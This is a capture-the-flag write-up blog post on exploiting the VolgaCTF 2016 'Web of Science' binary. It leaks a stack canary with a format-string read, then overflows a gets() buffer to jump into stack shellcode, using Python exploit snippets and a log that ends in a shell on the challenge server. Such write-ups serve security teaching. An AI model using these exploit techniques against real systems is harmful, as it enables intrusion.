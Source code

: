```yaml
---
layout: post
title: VolgaCTF 2016 - Web of Science
categories:
tags: exploit volgactf-2016 x86
author: hugsy
author_twitter: _hugsy_
---
```



### Info ###

The vulnerable file is [here](http://s000.tinyupload.com/?file_id=13236613895475757799).

{% highlight bash %}
gef➤  !file ./web_of_science
./web_of_science: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=85e0df26435ee411258ad39668c9700b1ebadec9, stripped
gef➤  checksec
[+] checksec for '/home/hugsy/ctf/volgactf_2016/web_of_science'
Canary:                                           Yes
NX Support:                                       No
PIE Support:                                      No
RPATH:                                            No
RUNPATH:                                          No
Partial RelRO:                                    Yes
Full RelRO:                                       No
{% endhighlight %}

It's a simple dynamically linked binary for x86-64. We have a canary stack
however the stack is executable (the '90s says hello!), which `gef`
confirms instantly:
![exec-stack](https://i.imgur.com/LfT3dt1.png)


### Vulnerabilities ###

`web_of_science` is a tool to manage scientific papers.
The binary is full of vulnerabilities, many of which were automatically detected
by the `format-string-helper` command from [GDB-GEF](https://github.com/hugsy/gef.git)

![fmt-str-gef](https://i.imgur.com/cqYmZLi.png)

Without any static analysis, we immediately spot that many (if not all)
`printf()` calls are vulnerable to format string vulnerabilities, where we
control the format field. That's good, we can leverage that later to bypass the
canary protection. So far, so good ☺

<!--more-->

So what does the binary do? It starts by call the function at 0x04007CD which
checks if we are human by prompting us to solve an addition with randomly
generated integers. Pretty hardcore stuff, right?

Then we jump into serious business at 0x400E1C. The function offers a menu to
respectively add/delete/list/view papers and exit.

When adding a paper (`add_paper()` function), a stack buffer of 1096 bytes is
allocated on the stack. It is then possible to populate different fields of this
stack allocated paper as shown here:

![add-paper-fill-info](https://i.imgur.com/dTZmTgS.png)

When saving the stack buffer is then copied to the .bss segment:

{% highlight bash %}
.text:0000000000400BAD loc_400BAD:                             ; DATA XREF: .rodata:0000000000401240
.text:0000000000400BAD                 mov     eax, cs:nb_papers
.text:0000000000400BB3                 cdqe
.text:0000000000400BB5                 shl     rax, 6
.text:0000000000400BB9                 mov     rdx, rax
.text:0000000000400BBC                 shl     rdx, 4
.text:0000000000400BC0                 add     rax, rdx
.text:0000000000400BC3                 add     rax, offset base_papers
.text:0000000000400BC9                 mov     rdx, rax
.text:0000000000400BCC                 lea     rsi, [rbp+paper]
.text:0000000000400BD3                 mov     eax, 88h
.text:0000000000400BD8                 mov     rdi, rdx
.text:0000000000400BDB                 mov     rcx, rax
.text:0000000000400BDE                 rep movsq               ; memcpy(base_paper[i], paper_stack)
.text:0000000000400BE1                 mov     eax, cs:nb_papers
.text:0000000000400BE7                 add     eax, 1          ; increments the number of paper
.text:0000000000400BEA                 mov     cs:nb_papers, eax
.text:0000000000400BF0                 jmp     short loc_400BF9
{% endhighlight %}

One stricking thing is of course the massive use of `gets()` everywhere for user
input. So we think immediately to stack-based buffer overflow.

The `view_paper()` function (at 0x400D52) receives a pointer to a paper and
displays its information using `printf()` - which makes us understand what
triggered the `gef` plugin for format string.

![view-paper](https://i.imgur.com/f7hs6qZ.png)


### Exploitation ###

The exploitation process will go something like this:

   1. Use of the format string vulnerabilities to leak stack until we get the
      canary using `printf()`
   1. Overflow one of the stack allocated buffer using `gets()`, correctly
      insert the canary, and jump to our stack-based shellcode.

So this lines up the following sequential steps:

   - Create a paper to allocate a 1096 byte stack buffer
{% highlight python %}
    ok("Adding a paper")
    s.read_until("> ")
    s.write("1\n") # add_paper

    ok("Adding paper name")
    s.read_until("> ")
    s.write("1\n") # add_paper_name
    s.read_until("Paper name: ")
    s.write('A'*10+"\n")
{% endhighlight %}

   - Using the abstract field of the paper to store our format string to leak
    the canary, and the stack address (for returning to it).
{% highlight python %}
    ok("Adding paper abstract")
    s.read_until("> ")
    s.write("3\n") # add_paper_abstract
    s.read_until("Paper abstract: ")
    s.write("%7$p.%163$p" + "\n")
{% endhighlight %}
   A stack address was found at `"$7$p"` and the canary at `"%163$p"`.

   - We need to view the paper to actually trigger the format string information
     leak:
{% highlight python %}
    s.read_until("> ")
    s.write("5\n") # view_paper_info
    s.read_until("Abstract:\n\t")
    paper_addr, canary = s.read_until("\nTags:\n\t")[:-8].split('.', 1)
    paper_addr = int(paper_addr, 16)
    canary = int(canary, 16)
    ok("Got addr: %#x" % paper_addr)
    ok("Got canary: %#x" % canary)
{% endhighlight %}

   - And now, build our payload, overflow the buffer, insert the canary to get
   good karma, and make the `ret` at 0x400C0E fall back to our controlled
   buffer:
{% highlight python %}
    s.read_until("> ")
    s.write("1\n") # add_paper_name
    ok("Sending payload")
    payload = ""
    payload+= "\x90"*0x8
    payload+= SC
    payload+= "\x90"*(1096-len(payload))
    payload+= q_s(canary) + "JUNK"*2 + q_s(paper_addr)
    s.read_until("Paper name: ")
    s.write(payload + '\n')

    s.read_until("> ")
    s.write("6\n") # quit to trigger the ret
{% endhighlight %}

And the execution gives:
{% highlight bash %}
~/ctf/volgactf_2016 $  ./gef-exploit.py
[+] Connected to webofscience.2016.volgactf.ru:45678
[+] Passing checks
[+] Adding a paper
[+] Adding paper name
[+] Adding paper abstract
[+] Showing paper to leak the canary
[+] Got addr: 0x7fffffffe6e0
[+] Got canary: 0x675049f6baf95300
[+] Sending payload
[+] Got it, interacting (Ctrl-C to break)
[+] Get a PTY with ' python -c "import pty;pty.spawn('/bin/bash')"  '

python -c "import pty;pty.spawn('/bin/bash')"
nobody@scweb1:/opt$ ls
flag_wos.txt  install  start_wos  web_of_science
nobody@scweb1:/opt$ cat flag_wos.txt
VolgaCTF{executable_st@ck_doesnt_cause_@ny_problems_d0es_it}
{% endhighlight %}

All done mate !


### Conclusion ###

Final word (or image):

![](https://i.imgur.com/PjfFC2f.jpg)

Full exploit is : [gef-exploit.py](https://gist.github.com/hugsy/deae32e1da40e7b8c754)

A write-up for `web_of_science_2` might as well come soon, stay tuned...
